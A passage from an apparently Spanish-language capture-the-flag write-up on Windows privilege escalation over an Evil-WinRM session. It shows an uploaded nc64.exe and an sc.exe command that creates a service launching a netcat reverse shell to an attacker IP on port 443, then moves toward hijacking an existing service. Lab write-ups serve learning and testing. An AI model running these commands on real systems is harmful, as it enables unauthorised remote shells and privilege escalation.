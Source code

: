 al listar lo que tenemos en el directorio vemos muchas cosas de vmware y nuestro nc64.exe 

```csharp
*Evil-WinRM* PS C:\Windows\Temp> dir

    Directory: C:\Windows\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/8/2022   4:25 PM                DiagTrack_alternativeTrace
d-----         8/8/2022   4:25 PM                DiagTrack_aot
d-----         8/8/2022   4:25 PM                DiagTrack_diag
d-----         8/8/2022   4:25 PM                DiagTrack_miniTrace
d-----        9/27/2021   6:04 AM                vmware-SYSTEM
-a----         8/8/2022   6:27 PM          45272 nc64.exe
-a----         8/8/2022   4:26 PM            102 silconfig.log
-a----        9/27/2021   5:59 AM            206 temBC3F.tmp
-a----        9/27/2021   6:14 AM          13692 vmware-vmsvc-SYSTEM.log
-a----        9/27/2021   4:46 AM          52365 vmware-vmsvc.log
-a----        9/27/2021   6:05 AM            297 vmware-vmtoolsd-Administrator.log
-a----         8/8/2022   4:25 PM            396 vmware-vmtoolsd-SYSTEM.log
-a----        9/27/2021   6:14 AM           3984 vmware-vmusr-Administrator.log
-a----        9/27/2021   4:46 AM          12982 vmware-vmusr.log
-a----         8/8/2022   4:25 PM            288 vmware-vmvss-SYSTEM.log
-a----        9/27/2021   4:43 AM           2016 vmware-vmvss.log

*Evil-WinRM* PS C:\Windows\Temp>
```

Una vez subido nuestro binario vamos a crearnos un servicio y le ponemos el path de nuestro binario, pero aunque estamos en el grupo no tenemos los permisos para crearnos un servicio.

```csharp
*Evil-WinRM* PS C:\Windows\Temp> sc.exe create shell_reverse binPath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.18 443"
[SC] OpenSCManager FAILED 5:

Access is denied.
```

Como no podemos crear un servicio, vamos a tratar de modificar uno que ya esté corriendo en el sistema como nos dice el artículo [**sc.exe**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config) 

![Untitled](Return%20d6966e9927e14428b9b3695e18e7c9d1/Untitled.png)

Lo primero que debemos hacer es ver que servicios están corriendo en nuestro sistema y vemos que tenemos varios servicios corriendo, ahora vamos  tratar de modificar alguno de estos con nuestra carga maliciosa 

```csharp
*Evil-WinRM* PS C:\Windows\Temp> services 

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
```